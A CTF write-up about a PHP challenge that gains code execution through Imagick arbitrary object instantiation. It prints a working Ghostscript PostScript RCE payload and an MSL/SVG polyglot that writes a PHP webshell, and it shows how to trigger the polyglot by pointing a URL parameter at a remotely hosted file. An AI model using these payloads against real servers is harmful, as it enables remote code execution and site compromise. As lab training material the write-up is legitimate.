

# PHP & Arbitrary Object Instantiation
The September 2022 CTF released by @leonjza from Orange Cyberdefense was challenging, informative and a lot of fun. The challenge context was PHP and Code Execution via Arbitrary Object Instantiation, but I wont give away the ending quite yet.


## The Eagle has landed
The landing page greets you with a few UI components, a file upload selector, a dropdown to select a size value between 1 and 4, a "send" button to upload the file and a link at the bottom labelled "Check DB".



Uploading an image does not display your selected image, but it does open *an* image. 


Take note of the URI in the address bar - it is very important as it includes a clue as to the underlying code used to manipulate the images, the URI is "image.php?module=**Imagick**&params=NULL&size=1". A Google search for **Imagick** produces quite a few results, and we are on the track to discover our solution. 
ImageMagick is a library that can be used to manipulate images and PDF's via code on the server.

Funnily enough the evening I started the challenge,I saw on twitter someone had posted an Imagick RCE payload, and the stage was set..... wait Mr. Rabbit I'm on my way...

The payload for a single gif or jpg file is..
(Keep this one in your list of payloads to try, it may work under other circumstances)
```
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%COMMAND_OF_CHOICE) currentdevice putdeviceprops
```

After emerging from this detour, I was actually quite grateful for it, because of what I had managed to learn about ImageMagick. ImageMagick has a policy.xml file and this is very important to the security of a website. In this policy you can set many aspects of how ImageMagick processes files, but one of them is, which **coders** can run, as shown below.

```<policy domain="coder" rights="write" pattern="PS"/>```

The rights can be set to be "read" and/or "write" or "none" for each type of coder. Link to documentation: https://imagemagick.org/script/security-policy.php 

Due to this my payload was not being run and it kept throwing an error about the "PS" coder being blocked.

## File inception
One of the many google results pointed me in the direction of a polgyglot MSL(Magick Scripting Lanaguage) file, this is almost equivalent to a file within a file, something similar to an html file that references an xml file, which happens to be embedded in the original html file. Link to website: https://www.synacktiv.com/en/publications/playing-with-imagetragick-like-its-2016.html

An msl file in ImageMagick is a scripting file that can run within the ImageMagick context. Link to documentation: https://imagemagick.org/script/conjure.php#msl

The RCE capability comes in where we can embed an msl file within an svg file. Once an instance of Imagick is instantiated using the svg file it will reference the msl file, as seen in the website link above.

There is however one caveat, the file needs to know its own location and name, so it can be referenced directly on the filesystem.
For example if you upload the file to /uploads/myimage.svg then you would need to reference it in the svg file as xlink:href="/var/www/html/uploads/myimage.svg". 

An example would be
```
<?xml version="1.0" encoding="UTF-8"?>
<image>
 <read filename="caption:&lt;?php system($_GET['cmd']); ?&gt;" />
 <write filename="info:{your webshell file name and path}" />
  <svg width="1" height="1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
    <image xlink:href="/var/www/html/uploads/myimage.svg" height="1" width="1"/>
  </svg>
</image>
```
In the above payload we see the svg tags located within the image tags, and ImageMagick handles that without a problem. The SVG file will reference the msl file(itself) and then run the image part of it which will write a webshell payload to the path of your choosing.

However, in the challenge the files are saved to the /tmp directory using a randomized name so this is not possible.
A bit more reading and I discovered this link https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/ which gave me the correct way forward. ImageMagick has a vid scheme which can reference files without knowing the exact name. Please go to the link above as it explains in more detail how the vid scheme works.

Now all we need, is to find a way of referencing our svg file name at least partially. When the file is uploaded and processed it creates a temporary file in the /tmp directory as I mentioned, and the file name is always prepended with **magick-** and so we can settle on a final payload as shown below.

```
<?xml version="1.0" encoding="UTF-8"?>
<image>
 <read filename="caption:&lt;?php system($_GET['cmd']); ?&gt;" />
 <write filename="info:{your webshell file name and path}" />
 <svg width="1" height="1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
    <image xlink:href="vid:msl:/tmp/magick*" height="1" width="1"/>
 </svg>
</image>
```
## But uploading the file doesn't work!!
If you just upload the payload, no webshell will be created due to the code in the upload php file (you can take a look shortly when you have your webshell :)). The object instantiation is only triggered when you use the "params" parameter in the URI of the image.php page. By using the parameters to construct an instance of Imagick in PHP, we can control which file is used in the constructor via the "params" value and this is processed lower down the code chain as explained in the link(https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/).

You can get more information on the Imagick constructor at the documentation link : https://www.php.net/manual/en/imagick.construct.php.

Hosting the file and then referencing it from that location will cause the file to be downloaded. This will cause the webshell to be written to your chosen path, keep in mind the webshell will have to be accessible from the web.
We need to figure out the path of the web site root folder. I did this by forcing an error, one way is to leave the "params" without a value, this gives us an error message and so after a few attempts we find that the correct path to write the webshell to is /var/www/html. 
Now all we need to do is change the webshell path and change the "params" to our hosted image path, ie "image.php?module=Imagick&params=**http:// {example.com}/{your svg file}**&size=1".

## LIGHTS,CAMERA...ACTION!!
The result of a *successful* upload is a new error page.


But typing in the path to your webshell file will load the previously non-existant page. WELL DONE!!
Your webshell works!

## Let's get that FLAG!!! 
Running the ls command, we see a few files in the web directory.

After printing out the lisitng of the files, we almost ignore the "Dockerfile" file, however this is where the clue lies.


Printing out that file reveals the location of our flag:
```ARG flag_value ENV FLAG ${flag_value}```

Finally we run the "env" command and there it is, in an entry called "FLAG=".

Thank You @leonjza for the opportunity to learn.
